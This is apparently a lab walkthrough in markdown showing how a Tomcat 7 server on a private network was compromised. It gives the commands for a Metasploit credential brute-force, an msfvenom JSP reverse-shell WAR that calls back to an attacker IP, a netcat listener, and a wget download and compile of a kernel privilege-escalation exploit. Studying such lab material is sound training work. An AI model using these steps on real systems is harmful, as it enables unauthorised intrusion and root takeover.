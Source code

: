 # ☁️ Tomcat Reverse Shell via WAR Upload (Port 8081)

> This section explains how I brute-forced Tomcat credentials, uploaded a WAR reverse shell, and gained access to the target server.

---

## 🧪 Lab Details

- **Target IP**: 192.168.182.128  
- **Port**: 8081  
- **Service**: Apache Tomcat 7  
- **Attacker IP**: 192.168.182.129

---

## 🔍 Step 1: Service Discovery

Browser: http://192.168.182.128:8081  
Prompted with a login popup for **Tomcat Manager**.

---

## 🔐 Step 2: Credential Brute-Force

Used Metasploit module:
```bash
use auxiliary/scanner/http/tomcat_mgr_login
set RHOSTS 192.168.182.128
set RPORT 8081
run
```
```bash
tomcat:tomcat
```
📌 Result: Login Successful → Default creds or weak creds were accepted.

---

## ☠️ Step 3: Payload Creation (WAR Shell)

Created WAR reverse shell using `msfvenom`: 
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.182.129 LPORT=4444 -f war -o shell.war
```

Started Netcat listener:
```bash
nc -lvnp 4444
```

---

## 🚀 Step 4: WAR Upload & Exploitation

1. Logged into Tomcat Manager Web Interface
2. Uploaded `shell.war`
3. Navigated to deployed path:
```bash
http://192.168.182.128:8081/shell/  (calls the shell)
```

✅ Result: Reverse shell connected back to attacker's Netcat listener

---

## 🧠 Step 5: Shell Access as tomcat7

Once shell was obtained:
```bash
whoami
→ tomcat7
```

---

## 🧗 Step 6: Privilege Escalation

### System Info
```bash
cat /etc/os-release
```
📌 Output:
```
Ubuntu 8.04
Linux version 2.6.24-16-server
```

An outdated kernel that is likely vulnerable to local exploits.

### Exploit Process
```bash
searchsploit linux kernel 2.6.24
```
- Selected appropriate privilege escalation exploit

Transferred and compiled exploit:
```bash
python3 -m http.server 8080   # On attacker machine
wget http://192.168.182.129:8080/exploit.c  # On victim
gcc exploit.c -o exploit
./exploit
```

### Root Access Gained
```bash
whoami
→ root
```

Successfully escalated from tomcat7 to root.

---

## 🔐 Summary

| Element       | Details                        |
|---------------|---------------------------------|
| Service       | Apache Tomcat 7                |
| Exploit       | WAR file upload                |
| Credentials   | Brute-forced via Metasploit    |
| Shell Type    | Reverse shell (Netcat)         |
| Start User    | tomcat7                        |
| Priv. Escal.  | Local kernel exploit (2.6.24)  |
| Final Access  | root                           |


